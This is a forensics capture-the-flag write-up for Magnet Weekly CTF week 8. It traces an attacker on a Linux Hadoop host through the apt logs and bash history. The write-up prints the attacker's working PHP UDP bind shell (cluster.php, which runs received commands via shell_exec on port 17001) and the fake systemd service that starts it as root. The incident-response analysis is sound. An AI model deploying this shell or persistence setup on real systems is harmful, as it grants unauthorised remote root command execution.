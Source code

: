 ```yaml
---
title: Magnet Weekly CTF 8 - Incident Response
excerpt: Solution to the Magnet Forensics CTF 8th week challenge. This week's challenge asks about some installed packages and a compromise.
tags: magnet-ctf ctf
author: rms
---
```


### Challenge 1 – 15pts

> What package(s) were installed by the threat actor? Select the most correct answer!

This challenge asks us to find a package installed by the threat actor. We know from past weeks that `apt` is used on this system to install packages. Looking at the `apt` log file found at `/var/log/apt/history.log` shows an interesting last package. 

```
Start-Date: 2019-10-07  01:30:31
Commandline: apt install php
Install: php7.0-cli:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php-common:amd64 (1:35ubuntu6.1, automatic), php7.0-fpm:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-opcache:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-common:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php:amd64 (1:7.0+35ubuntu6.1), php7.0-json:amd64 (7.0.33-0ubuntu0.16.04.6, automatic), php7.0-readline:amd64 (7.0.33-0ubuntu0.16.04.6, automatic)
End-Date: 2019-10-07  01:30:41
```

This particular package was the last package installed and the only package installed since 2017. It's likely this image was made in response to the attack, and it makes sense the last package installed was installed by the attacker, especially with such a time difference. Entering in `php` reveals it is indeed the correct solution. 

### Challenge 2 - 5pts

Solving the first question releases another challenge.

> Why?
    - Hosting a database
    - Serving a webpage
    - To run a php webshell
    - Create a fake systemd service

Hm. Why would a threat actor install php of all things? Maybe the bash history recorded some commands the attacker ran. Grepping the `.bash_history` file under `/home/hadoop` for `php` reveals a single command:

```
ll /usr/local/hadoop/bin/cluster.php
```

Interesting. The contents of that file:

```
<?php

error_reporting(0);

$sock = socket_create(AF_INET, SOCK_DGRAM, SOL_UDP);
//socket_set_option ($sock, SOL_SOCKET, SO_REUSEADDR, 1); 
if (socket_bind($sock, '0.0.0.0', 17001) == true) {
        $error_code = socket_last_error();
        $error_msg = socket_strerror($error_code);
        //echo "code: ", $error_code, " msg: ", $error_msg;

        for (;;) {
            socket_recvfrom($sock, $message, 1024000, 0, $ip, $port);
            $reply = shell_exec($message);
            socket_sendto($sock, $reply, strlen($reply), 0, $ip, $port);
        }
}
else {  exit;   }

?>
```

Ah. This php script loads a bind shell on port `17001` that can execute commands using `shell_exec`. This rules out using php for `Hosting a database`, `Serving a webpage`, and `To run a php webshell`. So the solution must be `Create a fake systemd service`? Lets double check. 

Using `ls -la etc/systemd/system/` we can see the system services:

```
drwxr-xr-x 12 root root 4096 Oct  6  2019 .
drwxr-xr-x  5 root root 4096 Nov  7  2017 ..
-rw-rw-r--  1 root root  246 Oct  6  2019 cluster.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 default.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 final.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 getty.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 graphical.target.wants
lrwxrwxrwx  1 root root   38 Nov  7  2017 iscsi.service -> /lib/systemd/system/open-iscsi.service
drwxr-xr-x  2 root root 4096 Oct  6  2019 multi-user.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 network-online.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 paths.target.wants
drwxr-xr-x  2 root root 4096 Nov  7  2017 sockets.target.wants
lrwxrwxrwx  1 root root   31 Nov  7  2017 sshd.service -> /lib/systemd/system/ssh.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 sysinit.target.wants
lrwxrwxrwx  1 root root   35 Nov  7  2017 syslog.service -> /lib/systemd/system/rsyslog.service
drwxr-xr-x  2 root root 4096 Nov  7  2017 timers.target.wants
```

Hm. `clsuter.php` and `cluster.service`... Let's check that out with `cat etc/systemd/system/cluster.service`. 

```
[Unit]
Description=Daemon Cluster Service
After=network.target
StartLimitIntervalSec=0
[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env php /usr/local/hadoop/bin/cluster.php

[Install]
WantedBy=multi-user.target
```

So a bind shell is created using `cluster.php` which is started via a systemd service! Entering `Create a fake systemd service` reveals it is the correct solution!
